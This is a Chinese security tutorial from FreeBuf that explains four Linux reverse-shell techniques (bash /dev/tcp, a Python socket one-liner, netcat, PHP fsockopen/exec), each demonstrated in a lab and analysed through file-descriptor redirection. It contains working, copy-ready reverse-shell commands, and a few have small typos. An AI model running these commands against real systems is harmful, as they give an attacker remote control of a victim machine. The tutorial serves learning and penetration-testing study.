## Linux下几种反弹Shell方法的总结与理解

***本文原创作者：LlawLiet，本文属FreeBuf原创奖励计划，未经许可禁止转载。**

**之前在网上看到很多师傅们总结的linux反弹shell的一些方法，为了更熟练的去运用这些技术，于是自己花精力查了很多资料去理解这些命令的含义，将研究的成果记录在这里，所谓的反弹shell，指的是我们在自己的机器上开启监听，然后在被攻击者的机器上发送连接请求去连接我们的机器，将被攻击者的shell反弹到我们的机器上，下面来介绍分析几种常用的方法。**

## 实验环境


CentOS 6.5：192.168.0.3


kali2.0：192.168.0.4


### 方法1：


反弹shell命令如下：

```
bash -i >& /dev/tcp/ip/port 0>&1
```


首先，使用nc在kali上监听端口：

```
nc -lvp 7777
```


[](https://image.3001.net/images/20180719/15319942663564.png)


然后在CentOS6.5下输入：

```
bash -i >& /dev/tcp/192.168.0.4/7777 0>&1
```


[](https://image.3001.net/images/20180719/15319942901754.png)


可以看到shell成功反弹到了kali上面，可以执行命令：


[](https://image.3001.net/images/20180719/15319943073730.png)


在解释这条反弹shell的命令原理之前，首先需要掌握几个点。


linux文件描述符：linux shell下有三种标准的文件描述符，分别如下：

```
0 - stdin 代表标准输入,使用<或<<
1 - stdout 代表标准输出,使用>或>>
2 - stderr 代表标准错误输出,使用2>或2>>
```


还有就是>&这个符号的含义，最好的理解是这样的：

```
当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
```


也有师傅把&这个符号解释为是取地址符号，学过C语言的小伙伴们都知道&这个符号代表取地址符，在C++中&符号还代表为引用，这样做是为了区分文件描述符和文件，比如查看一个不存在的文件，要把标准错误重定向到标准输出，如果直接`cat notexistfile 2>1`的话，则会将1看作是一个文件，将标准错误输出输出到1这个文件里而不是标准输出,而&的作用就是为了区分文件和文件描述符：


[](https://image.3001.net/images/20180719/15319943283512.png)理解了上面这些知识，下面来解释一下这一条反弹shell的命令首先，`bash -i`代表在本地打开一个bash，然后就是`/dev/tcp/ip/port`， `/dev/tcp/`是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，>&后面跟上`/dev/tcp/ip/port`这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程上，如果远程开启了对应的端口去监听，就会接收到这个bash的标准输出和标准错误输出，这个时候我们在本机CentOS输入命令，输出以及错误输出的内容就会被传递显示到远程。


[](https://image.3001.net/images/20180719/1531994346853.png)


在本地输入设备（键盘）输入命令，在本地看不到输入的内容，但是键盘输入的命令已经被输出到了远程，然后命令的执行结果或者错误也会被传到远程，查看远程，可以看到标准输出和标准错误输出都重定向到了远程：


[](https://image.3001.net/images/20180719/15319943625751.png)


下面在该命令后面加上`0>&1`，代表将标准输入重定向到标准输出，这里的标准输出已经重定向到了`/dev/tcp/ip/port`这个文件，也就是远程，那么标准输入也就重定向到了远程，这样的话就可以直接在远程输入了：


[](https://image.3001.net/images/20180719/153199438891.png)


[](https://image.3001.net/images/20180719/15319943988151.png)


那么，0>&2也是可以的，代表将标准输入重定向到标准错误输出，而标准错误输出重定向到了`/dev/tcp/ip/port`这个文件，也就是远程，那么标准输入也就重定向到了远程：


[](https://image.3001.net/images/20180719/15319944245437.png)


[](https://image.3001.net/images/20180719/15319944313563.png)


为了更形象的理解，下面给出了整个过程的数据流向，首先是本地的输入输出流向：


[](https://image.3001.net/images/20180719/15319944497064.png)执行`bash -i >& /dev/tcp/ip/port`后


[](https://image.3001.net/images/20180719/15319944699194.png)


执行`bash -i >& /dev/tcp/ip/port 0>&1`或者`bash -i >& /dev/tcp/ip/port 0>&2`后：


[](https://image.3001.net/images/20180719/15319944911875.png)


### 方法2：


使用python反弹，反弹shell命令如下：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```


首先，使用nc在kali上监听端口：


```
nc -lvp 7777
```


[](https://image.3001.net/images/20180719/15319946182478.png)


在CentOS下使用python去反向连接，输入：


```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.4',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);
```


[](https://image.3001.net/images/20180719/15319946428835.png)可以看到kali上成功反弹到了shell，可以执行一些命令：


[](https://image.3001.net/images/20180719/15319946629317.png)


在已经深入理解了第一种方法的原理后，下面来解释一下python反弹shell的原理。


首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符，经过测试可以看到值为3。


[](https://image.3001.net/images/20180719/1531994677492.png)


于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。


### 方法3：


使用nc反弹shell,需要的条件是被反弹shell的机器安装了nc，CentOS6.5安装nc方法如下：

```
1、下载安装
wget https://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download
tar -zxvf netcat-0.7.1.tar.gz -C /usr/local
cd /usr/local
mv netcat-0.7.1 netcat
cd /usr/local/netcat
./configure
make && make install
2、配置
vim /etc/profile
添加以下内容：
# set  netcat path
export NETCAT_HOME=/usr/local/netcat
export PATH=$PATH:$NETCAT_HOME/bin
保存，退出，并使配置生效：
source /etc/profile
3、测试
nc -help成功
```


[](https://image.3001.net/images/20180719/15319947019622.png)


之后在kali上使用nc监听端口：


```
nc -lvp 7777
```


[](https://image.3001.net/images/20180719/15319947202742.png)


在CentOS上使用nc去反向连接，命令如下：


```
nc -e /bin/bash 192.168.0.4 7777
```


[](https://image.3001.net/images/20180719/15319947419553.png)这里的-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(`/bin/bash`)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。


[](https://image.3001.net/images/20180719/15319947622295.png)


注意之前使用nc监听端口反弹shell时都会有一个警告：`Warning: forward host lookup failed for bogon: Unknown host`,根据nc帮助文档的提示加上-n参数就可以不产生这个警告了，-n参数代表在建立连接之前不对主机进行dns解析。


```
nc -nlvp 7777
```


[](https://image.3001.net/images/20180719/15319947866197.png)


如果nc不支持-e参数的话，可以利用到linux中的管道符，首先在kali上开启监听：


```
nc -nvlp 6666nc -nvlp 7777
```


[](https://image.3001.net/images/20180719/15319948029399.png)


之后在CentOS上使用nc去反向链接：


```
nc 192.168.0.4 6666|/bin/bash|192.168.0.4 7777
```


这里通过在kali上监听两个端口，然后在使用CentOS进行反向连接的时候使用到了管道符，管道符的作用是把管道符前的输出作为管道符后的输入，这样的话就可以在远程的6666端口的输入设备（键盘）输入命令，将命令输出传递至本地的`/bin/bash`，通过本地shell解释执行命令后，将命令执行的结果以及错误输入到远程的7777端口。





### 方法4：


使用php反弹shell，方法如下 。
首先最简单的一个办法，就是使用php的exec函数执行方法1反弹shell的命令：


```
php- 'exec("/bin/bash -i >& /dev/tcp/192.168.0.4/7777")'
```





还有一个是之前乌云知识库上的一个姿势，使用php的fsockopen去连接远程：


```
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```





这个姿势看起来有一些难以理解，尤其是还出现了`<&`这个符号，当然如果把&看着是取地址符或者是引用，那还是可以理解的，为了更方便的理解，我在这将这条命令稍微修改了一下，类似于前面的第二种方法。


有了之前的基础，我们知道3代表的是使用fsockopen函数建立socket返回的文件描述符，这里将标准输入，标准输出和标准错误输出都重定向到了远程


在CentOS上反向连接，输入：


```
php -r '$sock=fsockopen("192.168.0.4",7777);exec("/bin/bash -i 0>&3 1>&3 2>&3");'
```


注意php反弹shell的这些方法都需要php关闭safe_mode这个选项，才可以使用exec函数。


## 总结


写这篇文章加上查阅资料花了一天多的时间，感觉自己现在真正的将这四种方法理解透了，能够自己去写一些反弹shell的命令了，所以付出还是值得的，网上还有不少反弹shell的命令，以后自己会不断的补充，It’s the climb！


***本文原创作者：LlawLiet，本文属FreeBuf原创奖励计划，未经许可禁止转载。**